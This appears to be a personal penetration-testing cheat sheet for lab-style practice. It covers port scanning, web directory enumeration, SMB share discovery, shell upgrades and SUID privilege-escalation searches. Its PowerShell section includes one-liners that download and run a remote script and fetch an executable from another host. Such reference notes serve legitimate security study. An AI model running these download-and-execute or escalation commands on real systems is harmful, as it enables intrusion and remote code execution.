 # Penetration Testing Cheat Sheet
Captured learning notes

## Follow redirects
```bash
wget --delete-after url 2>&1 | grep Location:
curl -v -L http://picasaweb.google.com 2>&1 | egrep "^> (Host:|GET)"
```

## Port scanning
```bash
nmap 10.10.10.150 -p-
nmap -sC -sV 10.10.150 -p80 -oA scan
```

## Web scan enumeration
```bash
dirhunt 10.10.10.150
gobuster -u 10.10.10.150 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Discover SMB shares
```bash
nmb lookup -A 10.10.10.150
smbclient -L \\fqdn -I 10.10.10.150 -N
```

## TTY/PTY
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

## Export $PATH
```bash
export PATH=​$PATH​:/bin:/sbin:/usr/bin:/usr/sbin:/usr/​local​/bin:/usr/​local​/sbin
```

## Privilege Escalation with SUID
[Linux Privilege Escalation using SUID Binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
```bash
find / -perm -u=s -type f 2>/dev/null
```
[Linux PrivEsc: Abusing SUID](https://www.gracefulsecurity.com/linux-privesc-abusing-suid/)
```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

## Download Methods
### PowerShell
```powershell
IEX(New-Object Net.WebClient).downloadString('https://10.10.10.150:80/script.ps1')
powershell "(New-Object System.Net.WebClient).downloadFile('http://10.10.10.150:8000/file.exe','file.exe')"
```

## Padbuster
```bash
padbuster http://10.10.10.150 string # -cookies auth=string -encoding 0
```

## Decode/Decrypt
```bash
echo string | base64 --decode
```

## msfvenom
[Creating Metasploit Payloads](https://netsec.ws/?p=331)

## Connect to pop3
```bash
openssl s_client -connect 10.10.10.150:995
```
